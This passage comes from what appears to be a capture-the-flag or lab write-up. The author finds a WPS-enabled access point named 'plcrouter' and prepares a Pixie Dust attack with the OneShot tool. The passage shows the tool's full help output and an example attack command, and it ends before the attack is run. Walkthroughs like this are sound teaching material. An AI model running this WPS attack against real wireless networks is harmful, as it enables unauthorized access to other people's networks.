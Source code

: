 
There's an access point (AP) named "plcrouter" nearby. `iw` shows that
it has WPS, which is always risky.

### Wifi Connection

#### Get Wifi Password

I'll use a tool called [OneShot](https://github.com/fulvius31/OneShot)
to perform the [Pixie Dust
Attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack))
against WPS. It requires an interface:


    root@attica02:~# python3 oneshot.py -h
    usage: oneshot.py [-h] -i INTERFACE [-b BSSID] [-p PIN] [-K] [-F] [-X] [-B]
                      [--pbc] [-d DELAY] [-w] [--iface-down]
                      [--vuln-list VULN_LIST] [-l] [-r] [--mtk-wifi] [-v]

    OneShotPin 0.0.2 (c) 2017 rofl0r, modded by drygdryg

    options:
      -h, --help            show this help message and exit
      -i INTERFACE, --interface INTERFACE
                            Name of the interface to use
      -b BSSID, --bssid BSSID
                            BSSID of the target AP
      -p PIN, --pin PIN     Use the specified pin (arbitrary string or 4/8 digit
                            pin)
      -K, --pixie-dust      Run Pixie Dust attack
      -F, --pixie-force     Run Pixiewps with --force option (bruteforce full
                            range)
      -X, --show-pixie-cmd  Always print Pixiewps command
      -B, --bruteforce      Run online bruteforce attack
      --pbc, --push-button-connect
                            Run WPS push button connection
      -d DELAY, --delay DELAY
                            Set the delay between pin attempts
      -w, --write           Write credentials to the file on success
      --iface-down          Down network interface when the work is finished
      --vuln-list VULN_LIST
                            Use custom file with vulnerable devices list
      -l, --loop            Run in a loop
      -r, --reverse-scan    Reverse order of networks in the list of networks.
                            Useful on small displays
      --mtk-wifi            Activate MediaTek Wi-Fi interface driver on startup
                            and deactivate it on exit (for internal Wi-Fi adapters
                            implemented in MediaTek SoCs). Turn off Wi-Fi in the
                            system settings before using this.
      -v, --verbose         Verbose output

    Example: oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K


The example run shows also passing it the BSSID and `-K` to do the the
Pixie Dust attack. I'll start there. I've got the BSSID from the `iw` or
`iwlist` output:
